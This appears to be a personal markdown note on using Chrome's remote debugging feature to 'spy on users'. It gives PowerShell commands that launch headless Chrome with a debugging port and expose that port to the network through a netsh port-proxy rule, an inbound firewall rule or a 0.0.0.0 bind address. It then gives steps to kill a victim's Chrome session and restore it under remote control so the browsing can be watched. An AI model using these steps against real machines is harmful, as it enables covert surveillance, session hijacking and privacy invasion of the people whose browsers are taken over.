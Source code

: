 # Powerfull automation
![[COM Objects]]

## Automating and remote controlling Google Chrome
How to leverage remote debugging to spy on users!
- Running google chrome in the background with remote debugging 
```powershell
# Here we can see also some more good options
Start-Process "chrome" -ArgumentList "https://github.com","--headless","--remote-debugging-port=9222"

# Good option to keep in mind: screenshot=C:/users/zeyad/google.png
# TODO create a script to screen capture browsers
```
- Adding port forward rule (Require admin privileges)
```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=48333 connectaddress=127.0.0.1 connectport=9222
# Cleanup
netsh interface portproxy reset
```
- Allowing remote connections to port 48333 via firewall
```powershell
New-NetFirewallRule -Name ChromeRemote -DisplayName "Open
Port 48333" -Direction Inbound -Protocol tcp -LocalPort 48333 -Action Allow -Enabled True
# cleanup
Remove-NetFirewallRule -Name ChromeRemote
```
- Alternatively you can enable it directly without port forwarding using the **`--remote-debugging-address=0.0.0.0`** option
```powershell
# This won't work without the --headless option
Start-Process "chrome" -ArgumentList "https://github.com","--remote-debugging-port=9222","--remote-debugging-address=0.0.0.0","--headless"
```
Now you can view the page remotely, but if the url was like :
```txt
https://chrome-devtools-frontend.appspot.com/serve_file/@273bf7ac8c909cde36982d27f66f3c70846a3718/inspector.html?ws=172.16.111.138:9222/devtools/page/2D2CF661C2D2BA88745171418BF50A0E&remoteFrontend=true
```
Consider removing this part to resolve the error.
The final URL should be like:
```txt
http://172.16.111.138:9222/devtools/inspector.html?ws=172.16.111.138:9222/devtools/page/2D2CF661C2D2BA88745171418BF50A0E&remoteFrontend=true
```
> **Important information Notes**
> 1. Chrome is frequently updated, and behaviors might change over time. 
> 2. The remote debugging feature Chrome provides does not offer an encrypted connection, so use this remotely capability carefully.

Now you can control the browser remotely. Now after knowing some basics let's spy on users..
### Using Chrome remote debugging to spy on users!
- Kill the user chrome session then start a new one
```powershell
# This will require manual portforward
Start-Process "chrome" -ArgumentList "--headless","--remote-debugging-port=9222","--restore-last-session"
```
- View victim settings by browsing to **chrome://settings** (didn't work for me)